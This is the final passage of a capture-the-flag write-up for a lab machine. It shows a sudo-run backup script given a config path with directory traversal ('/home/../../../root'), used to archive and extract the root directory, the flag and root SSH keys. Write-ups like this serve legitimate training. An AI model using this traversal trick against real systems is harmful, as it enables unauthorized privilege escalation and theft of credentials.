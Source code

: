 <p>Running the script with sudo privileges resulted in a successful backup of the root directory:</p>
<pre>
2martin@code:~$ sudo /usr/bin/backy.sh test.json 
2025/08/15 15:17:53 🍀 backy 1.2
2025/08/15 15:17:53 📋 Working with test.json ...
2025/08/15 15:17:53 💤 Nothing to sync
2025/08/15 15:17:53 📤 Archiving: [/home/../../../root /home/user/martin]
2025/08/15 15:17:53 📥 To: /home/martin ...
2025/08/15 15:17:53 📦
2025/08/15 15:17:53 📦 📦
</pre>

<p>Extracting the backup provides us with the root directory where we can find the root.txt flag as well as the ssh keys for the root user:</p>

<pre>
tar xvjf backupfile.tar.bz2
martin@code:~$ cd root
martin@code:~/root$ ls
root.txt  scripts
</pre>
<p>Note: x stands for extract, v for verbose, j for bz2, f for file.</p>
<p>Congratulations, you have successfully rooted this box!</p>
<h2>Final thoughts</h2>
<p>In general, this was a fun but hard box for me as I have little experience with python (my main programming language is Java). Therefore, I need to admit that I have had a little bit of help gaining an initial foothold of the machine. However, I made sure to understand every step that i did. I learned a lot doing this box.</p>
<a href="/">Go to the Home Page</a>




